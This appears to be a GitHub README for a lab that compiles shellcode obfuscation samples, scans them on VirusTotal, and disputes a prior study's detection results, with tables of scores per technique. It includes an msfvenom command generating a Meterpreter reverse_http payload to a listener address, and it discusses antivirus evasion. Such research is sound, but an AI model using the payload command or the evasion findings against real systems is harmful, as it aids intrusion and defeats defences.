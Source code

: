 # SOL ShellcodeObfuscationLab

Shellcode obfuscations laboratory based on RedSiege [Chromatophore](https://github.com/RedSiege/Chromatophore/). 


## Background

I see RedTeam research like [Adventures in Shellcode Obfuscation!](https://redsiege.com/blog/2024/09/adventures-in-shellcode-obfuscation-part-14-further-research/), a 
[14 part series](https://redsiege.com/adventures-in-shellcode-obfuscation/)
of hiding shellcode using various different encryption- or encoding ciphers. 

In the security scene, the myth perpetuates: How you encode a shellcode has an
influence on the detection rate. The assumption is, that somehow an AV or security software
has a unique ability to automagically reverse engineer encryption ciphers, and also
have a quantum computer integrated to crack the key. 

The truth is: AV doesnt know shit. 

RedSiege came to the following wrong result:

| Technique          | VT Score |
| ------------------ | -------- |
| XOR Multibyte Key  | 2        |
| Offsets            | 2        |
| Jargon             | 3        |
| Reverse Byte Order | 4        |
| Jigsaw             | 4        |
| Reversed Byte XOR  | 5        |
| IPv4               | 6        |
| MAC Address        | 6        |
| Caesar             | 7        |
| RC4                | 7        |
| XOR                | 8        |
| AES                | 8        |
| Two Array          | 8        |
| Reverse String     | 13       |
| UUID               | 13       |
| Base64             | 18       |
| No Obfuscation     | 27       |


But didnt bother to question the data. There are many issues with it: 

* Why are the top three Base64, UUID, and reverse hex string? Especially the later is very obscure
* No negative test (without malicious shellcode)
* Some programs are written in C, some in C#
* Some use WinAPI (AES, RC4, UUID) which are either an IOC, or may block AV emulator
* ReverseXor brute forces the key
* In jargon.c they mention that Defender detects the decryption routine itself. Same in xor_multibyte
* As they store the shellcode in a variable, static analysis tools can try out their deobfuscation on all the variables (explains high detection of ReverseString and Base64)
* Scans performed with large intervals between them (weeks?)

Which means that the test has been performed wrong, and the results are invalid. 
Any conclusion based on the data is also invalid - and building [trainings](https://redsiege.com/training-av-edr-evasion/) on it distributes the misinformation. 

Luckily RedSiege published the [shellcode encoder sources](https://github.com/RedSiege/Chromatophore).
I made this framework based on it to test it for myself. 


## Predictions

* Which encryption you use doesnt matter - they all equally resistant to analysis
* Using windows API's will increase detection rate


## Results

Tests have been performed with einer "random" - a alphanumeric 20 byte string as "shellcode". And "metasploit" 
with output of `msfvenom -p windows/x64/meterpreter/reverse_http LHOST=192.168.190.134 LPORT=80 -f raw -o beacon.bin`. 
The "metasploit" does not execute the shellcode, only decodes and prints it. 

Conclusion: 
* The type of encoding/encryption doesnt matter
* More important is if a windows API is being used/imported (static analysis, e.g. IAT in PE)
* Note that NO obfuscation metasploit outperforms AES encryption, base64 windows api, ip-, mac- and uuid-encoding
* VirusTotal has maybe one memory scanner. The rest seem to be static analysis. 

| **What**           | **Library**           | **Includes**              | **Function / IAT**                 | **Random** | **Metasploit** |
| ------------------ | --------------------- | ------------------------- | ---------------------------------- | ---------- | -------------- |
| aes                | crypt32.lib, advapi32 | wincrypt.h                | Crypt\*                            | **5**          | **6**              |
| base64             | \-                    | \-                        | \-                                 | 3          | 3              |
| base64api          | crypt32.lib           | wincrypt.h                | CryptStringToBinaryA               | **5**          | **6**              |
| bin2ip             | Ntdll.lib             | ntstatus.h<br>Ip2string.h | RtlIpv4StringToAddressA            | **8**          | **10**             |
| bin2mac            | Ntdll.lib             | ntstatus.h<br>Ip2string.h | RtlEthernetStringToAddressA        | **8**          | **18**             |
| cesar              | \-                    | \-                        | \-                                 | 2          | 2              |
| jargon             | \-                    | \-                        | \-                                 | 3          | 2              |
| jigsaw             | \-                    | \-                        | \-                                 | 2          | 3              |
| offset             | \-                    | \-                        | \-                                 | 2          | 3              |
| rc4api             | \-                    | \-                        | GetProcAddress (SystemFunction033) | 2          | 2              |
| reverse_byte_order | \-                    | \-                        | \-                                 | 2          | 2              |
| reverse_hex_string | \-                    | \-                        | \-                                 | 2          | 2              |
| twoarray           | \-                    | \-                        | \-                                 | 2          | 3              |
| uuidapi            | rpcrt4.lib            | rpc.h                     | UuidFromStringA                    | **8**          | **11**             |
| xor_multibyte      | \-                    | \-                        | \-                                 | 1          | 2              |
| xor_reverse        | \-                    | \-                        | \-                                 | 2          | 3              |
| xor_single         | \-                    | \-                        | \-                                 | 1          | 3              |
| **NO OBFUSCATION**     | \-                    | \-                        | \-                                 | 2          | 3              |


The results of the test are at [lab_results/](https://github.com/dobin/ShellcodeObfuscationLab/tree/main/lab_results). 
For example the generated [aes.c source code](https://github.com/dobin/ShellcodeObfuscationLab/blob/main/lab_results/metasploit/aes_work.c),
and its [VirusTotal result](https://github.com/dobin/ShellcodeObfuscationLab/blob/main/lab_results/metasploit/aes.exe.json).


## SOL Usage

Use the `x64 native tools command prompt` from Visual Studio so you have access to `ml.exe` and `Windows.h`. 

To compile all the source from `chromatophore/` into `output/*.exe`:
```
> python.exe sol.py compile
```

To send all the exes to VirusTotal:

```
> set VT_API_KEY=123...
> python.exe sol.py vt
```

Output is in `output/*.exe.json` and `output/scan_results.txt`. 

